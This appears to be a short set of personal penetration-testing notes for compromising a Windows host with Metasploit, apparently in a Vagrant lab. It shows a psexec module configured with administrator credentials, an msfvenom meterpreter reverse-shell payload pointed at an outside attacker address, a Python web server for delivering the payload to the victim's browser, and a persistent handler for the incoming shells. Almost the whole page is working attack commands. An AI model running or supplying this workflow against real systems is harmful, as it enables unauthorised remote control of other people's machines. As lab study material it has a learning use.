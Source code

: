```
use windows/smb/psexec
set rhost 127.0.0.1
set rport 4445
set lhost 72.69.76.76
set lport 45241
set smbuser administrator
set smbpass vagrant
```
![Pasted image 20250601135928](../zzAttachments/Pasted%20image%2020250601135928.png)
```
run
```

#### Payload (for bind) (PoC)

##### Generate Payload
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=72.69.76.76 LPORT=45241 -f exe > payload.exe
```

##### Attacker web server
```
python -m http.server 45241
```

## From Windows internet explorer
http://72.69.76.76:45141
download payload .exe

## Persistent Listener
```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 45241
set exitonsession false
exploit -j
```